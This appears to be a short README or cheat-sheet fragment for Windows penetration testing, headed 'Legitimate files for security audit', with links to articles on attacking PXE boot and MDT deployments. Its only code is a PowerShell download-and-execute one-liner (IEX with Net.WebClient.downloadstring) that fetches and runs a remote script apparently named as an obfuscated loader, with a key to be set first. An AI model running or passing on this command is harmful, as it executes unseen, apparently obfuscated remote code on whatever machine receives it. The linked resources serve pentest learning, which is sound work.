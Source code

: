 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

# Cyber Cheat Sheet

## Reconaissance & Enumération

## MEMCM - MDT - PXE

Ressources :

https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images/
https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/
https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
https://www.acceis.fr/sattaquer-aux-images-pxe/
https://github.com/wavestone-cdt/powerpxe
https://tryhackme.com/r/room/breachingad
